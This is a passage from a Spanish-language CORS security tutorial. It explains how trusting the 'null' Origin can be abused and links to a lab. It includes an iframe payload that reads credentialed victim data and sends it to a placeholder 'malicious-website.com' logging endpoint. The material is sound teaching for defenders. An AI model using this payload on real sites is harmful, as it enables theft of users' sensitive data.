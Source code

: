 - `Solicitudes que usan el protocolo file:`
    
- `Solicitudes cross-origin en entornos restringidos (sandboxed)`

Algunas aplicaciones pueden incluir `null` en la `whitelist` para facilitar el `desarrollo local` de la aplicación. Por ejemplo, supongamos que una aplicación `recibe` la siguiente `solicitud cross-origin`:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

El servidor `responde` con lo siguiente:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

En esta situación, un `atacante` puede usar varios trucos para generar una `solicitud cross-origin` que contenga el valor `null` en la cabecera `Origin`. Esto satisfará a la `whitelist` permitiendo un `acceso cross-domain`. Por ejemplo, se puede hacer usando una `solicitud cross-origin` en un `iframe sandboxed` de la siguiente forma:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'vulnerable-website.com/sensitive-victim-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location = 'malicious-website.com/log?key=' + this.responseText;
    };
  </script>
"></iframe>
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- CORS vulnerability with trusted null origin - [https://justice-reaper.github.io/posts/CORS-Lab-2/](https://justice-reaper.github.io/posts/CORS-Lab-2/)

### Explotar un XSS a través de relaciones de confianza de CORS

Incluso una configuración `"correcta"` de `CORS` establece una `relación de confianza entre dos orígenes`. Si un `sitio web confía en un origen` que es `vulnerable a cross-site scripting (XSS)`, un `atacante` podría `explotar la vulnerabilidad XSS` para `inyectar código JavaScript` que utilice `CORS` para `recuperar información sensible` del `sitio web que confía en la aplicación vulnerable`. Por ejemplo, si se `envía` la siguiente `petición`:
